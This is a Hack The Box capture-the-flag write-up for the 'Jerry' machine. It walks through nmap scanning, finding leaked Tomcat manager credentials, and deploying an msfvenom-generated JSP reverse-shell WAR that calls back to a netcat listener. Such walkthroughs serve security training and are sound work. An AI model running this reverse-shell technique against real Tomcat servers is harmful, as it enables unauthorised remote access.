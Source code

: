 # Hack the box - Jerry

<img align="left" src="logo.png">
&nbsp;<span style="color:#b5e853; font-weight: bold">OS: <img align="top" src="../../../images/windows.png"> </span><b>Windows</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.95</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2018 Jun 30</b>

___

## Port scanning
```
nmap -sC -sV -T4 -oA nmap 10.10.10.95
```
![Nmap results](./nmap.png)

There is only port 8080 open which indicates Apache Tomcat server.

___

## Web fingerprinting

By visiting web page we could notice Apache Tomcat server:

![Tomacat index page](./index_page.png)

Manager app have admin access:

![Admin access](./admin_htpasswd.png)

If we press "Cancel", web sever reddirects us to http://10.10.10.95:8080/manager/html page, that have credentials leaked:

![Leaked creds](./leaked_creds.png)

After we successfuly login to admin page, we could identify Deploy location that is iteresting place to inject reverse shell:

![Reverse shell upload location](./reverse_shell_upload_location.png)

## Getting reverse shell

From quick google search we could identify that Apache Tomacat uses java tech stack that supports WAR files:

![Tomcat tech stack](./tomcat_tech_stack.png)

msfvenom is convenient tool to generate reverse shell files:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.xx.xx LPORT=4444 -f war > reverse_shell.war
```

![Generating reverse shell](./getting_reverse_shell.png)

After we use netcat to listen on port 4444 and upload generated shell:

```
nc -lvnp 4444
```

![File upload](./uploaded_shell.png)

![Got reverse shell](./got_rev_shell.png)

As we can see, there is no need for privelege escalation, so we can capture flags ASAP:

![Capturing flags](./flags_capture.png)
